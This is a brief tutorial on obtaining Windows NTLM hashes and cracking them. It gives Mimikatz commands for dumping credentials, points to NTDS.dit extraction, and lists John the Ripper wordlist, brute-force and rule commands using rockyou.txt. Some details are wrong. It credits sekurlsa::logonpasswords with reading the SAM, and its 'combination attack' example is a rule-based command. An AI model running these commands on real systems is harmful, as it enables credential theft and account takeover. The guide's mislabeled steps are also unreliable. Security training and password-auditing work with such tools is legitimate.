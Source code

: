 To acquire NTHash/NTLM hashes, you can use tools like Mimikatz to dump the Security Account Manager (SAM) database or extract them from the NTDS.dit file in Active Directory. While "pass the hash" attacks can bypass the need for password cracking, understanding how to crack these hashes is crucial when facing weak password policies.

#### Dumping the Hashes

To start cracking, you first need to obtain the hashes:

- **Using Mimikatz**:
  - Extract hashes from the SAM with:

    ```bash
    mimikatz # privilege::debug
    mimikatz # sekurlsa::logonpasswords
    ```

- **From NTDS.dit**:
  - Extract hashes using tools like NTDSUtil or DSInternals.

#### Hash Cracking Strategy

Once you have the hashes, you can begin cracking:

- **Wordlist Attack**:
  - Use a comprehensive wordlist to attempt common passwords.
  - **Example Command**:

    ```bash
    john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt ntlm_hashes.txt
    ```

- **Brute Force Attack**:
  - Use brute force when wordlist attacks fail, specifying character sets and length.
  - **Example Command**:

    ```bash
    john --format=nt --incremental=Alnum ntlm_hashes.txt
    ```

### Advanced Techniques

For a more targeted approach, you can also consider:

- **Combination Attacks**:
  - Combine words from different wordlists or with common substitutions and suffixes.
  - **Example Command**:

    ```bash
    john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt --rules=Best64 ntlm_hashes.txt
    ```

- **Rule-Based Attacks**:
  - Apply transformation rules to modify base words from a wordlist.
  - **Example Command**:

    ```bash
    john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt --rules ntlm_hashes.txt
    ```
